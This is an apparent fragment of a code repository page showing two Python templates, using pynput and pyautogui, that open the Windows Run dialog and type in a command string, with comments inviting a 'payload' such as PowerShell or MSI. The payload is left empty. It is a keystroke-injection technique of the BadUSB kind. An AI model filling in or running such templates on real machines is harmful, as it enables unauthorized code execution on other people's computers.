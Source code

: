 ```python
if __name__ == '__main__':
	save_file()
```

### Dialogue Box

#### `pynput`

```python
from pynput.keyboard import Key, Controller
from time import sleep

def inject_keystrokes() -> None:
	# Add payload here. Such as, PowerShell, MSI, etc
	commands = ""
	
	# Create the keyboard controller
	keyboard = Controller()
	
	# Open Dialogue Box (Win + R)
	keyboard.press(Key.cmd)
	keyboard.press('r')
	sleep(2)
	
	# Release the keys
	keyboard.release('r')
	keyboard.release(Key.cmd)
	sleep(1)
	
	# Inject commands then return
	keyboard.type(commands)
	sleep(1)
	keyboard.press(Key.enter)
	keyboard.release(Key.enter)

if __name__ == '__main__':
	inject_keystrokes()
```

#### `pyautogui`

```python
import pyautogui
from time import sleep

def inject_keystrokes() -> None:
	# Add payload here. Such as, PowerShell, MSI, etc
	commands = ""

	pyautogui.FAILSAFE = False
	
	# Open Dialogue Box (Win + R)
	pyautogui.press("win")
	pyautogui.press("r")
	sleep(2)

	# Inject commands then return
	pyautogui.write(commands, interval=.025)
	pyautogui.press("enter")

if __name__ == '__main__':
	inject_keystrokes()
```
